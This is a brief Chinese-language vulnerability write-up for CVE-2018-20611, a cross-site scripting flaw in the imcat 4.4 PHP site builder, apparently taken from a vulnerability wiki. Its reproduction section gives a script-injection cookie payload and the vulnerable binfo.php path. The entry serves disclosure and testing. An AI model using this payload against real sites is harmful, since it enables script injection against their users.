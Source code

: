 （CVE-2018-20611）Imcat 4.4 xss
===============================

一、漏洞简介
------------

imcat是一套基于PHP的开源建站系统。 imcat
4.4版本存在跨站脚本漏洞。远程攻击者可通过向root/tools/adbug/binfo.php?cookie
URI发送特制的cookie利用该漏洞注入任意的Web脚本或HTML。

二、漏洞影响
------------

imcat 4.4

三、复现过程
------------

将cookie的值修改成

    "><script>alert(1)</script>

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2018-20611)Imcat4.4xss/media/rId24.png)

然后访问

    http://www.0-sec.org/root/tools/adbug/binfo.php?cookie`

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2018-20611)Imcat4.4xss/media/rId25.png)

参考链接
--------

> <https://github.com/AvaterXXX/CVEs/blob/master/imcat.md>
